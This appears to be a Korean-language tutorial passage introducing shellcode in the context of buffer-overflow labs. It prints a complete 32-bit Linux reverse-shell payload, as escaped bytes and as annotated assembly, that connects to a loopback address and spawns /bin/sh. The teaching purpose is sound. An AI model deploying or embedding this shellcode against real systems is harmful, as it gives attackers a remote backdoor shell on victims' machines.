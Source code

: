 # 쉘코드(shellcode) 소개

실습에서는 **이미 존재하는 코드**( hidden 함수라던가) 의 주소로 return address 를 덮어서 점프를 했습니다만

어떨 때는, **해커가 만든 기계어를 버퍼에 저장한다음, 그 기계어로 점프를 할 수 있는 경우**가 있습니다.

컴퓨터는 점프한 곳이 **유효한 주소**(실제로 메모리상에 있는 주소)이면, 그 곳에 있는 코드들을 **그냥 실행**합니다.

즉, 입력이나 파일, 데이터 입력등의 Attack Vector 로 해커가 만든 기계어**(보통 어셈블리어로 작성)**를 

### 예시 : reverse shellcode

예를 들어, 이렇게 생긴 쉘코드를 삽입해서 실행시킬 수 있게 되면,

```
\x6a\x66\x58\x99\x6a\x1\x5b\x52\x53\x6a\x2\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x1\x1\x1\x66\x68\x9\x29\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x87\xd3\x6a\x2\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\xb\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
```

아래와 같은 명령이 컴퓨터에서 강제로 실행되어서,  외부와 연결된 **백도어를 해킹된 프로그램 안에 강제로 생성합니다.**

```
BITS 32

push BYTE 102
pop eax
cdq
push dword 1
pop ebx
push edx
push ebx
push BYTE 2
mov ecx, esp
int 0x80

xchg edx,eax

mov al, 0x66
push DWORD 0x0101017f
push WORD 0x2909
inc ebx
push WORD bx
mov ecx, esp
push BYTE 16
push ecx
push edx
mov ecx, esp
inc ebx
int 0x80

xchg edx,ebx
push BYTE 0x2
pop ecx
dup2_call:
    mov BYTE al, 0x3F
    int 0x80
    dec ecx
    jns dup2_call

mov BYTE al, 11
xor edx, edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push edx
mov edx, esp
push ebx
mov ecx, esp
int 0x80

```